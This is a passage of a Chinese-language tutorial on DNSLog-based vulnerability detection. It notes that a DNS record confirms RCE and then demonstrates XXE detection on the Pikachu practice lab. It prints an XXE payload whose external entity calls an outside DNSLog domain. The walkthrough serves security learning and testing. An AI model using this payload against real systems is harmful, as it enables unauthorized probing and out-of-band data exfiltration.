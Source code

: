 ```
有解析记录说明存在RCE漏洞。
```

![image-20241124174337732](Dnslog漏洞检测/image-20241124174337732.png)	

## XXE漏洞探测

```
接下来我们还是利用Pikachu的靶场作为演示。首先我们先进入Pikachu靶场的XXE漏洞界面。
```

![image-20241124174514786](Dnslog漏洞检测/image-20241124174514786.png)	

```
接下来我们只需要提交以下的payload，将其中的XXXXX部分替换为我们从DNSLog服务平台获取到的子域名就好了。
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM
"http://i2ypch.dnslog.cn">%remote;]>
```

![image-20241124174653354](Dnslog漏洞检测/image-20241124174653354.png)	
